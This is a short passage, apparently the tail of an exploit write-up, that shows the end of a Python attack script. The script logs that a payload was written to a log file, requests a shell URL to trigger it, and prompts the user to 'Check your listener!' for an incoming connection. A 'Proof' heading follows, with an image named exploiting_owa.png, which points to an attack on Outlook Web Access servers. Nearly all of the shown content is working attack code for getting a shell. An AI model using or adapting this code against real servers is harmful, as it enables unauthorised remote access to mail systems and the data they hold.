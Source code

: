 ```python
else:
   print_message('Wrote payload to log file', "INFO")

try:
   session.get(shell_url, proxies=proxies)
except Exception as e:
   print(e)
else:
   print_message('Triggering payload! Check your listener!', "SUCCESS")
   print_message('You can trigger the payload again at "{url}"'.format(url=shell_url) , "INFO")

```

## Proof

![](./assets/exploiting_owa.png)


[back](./)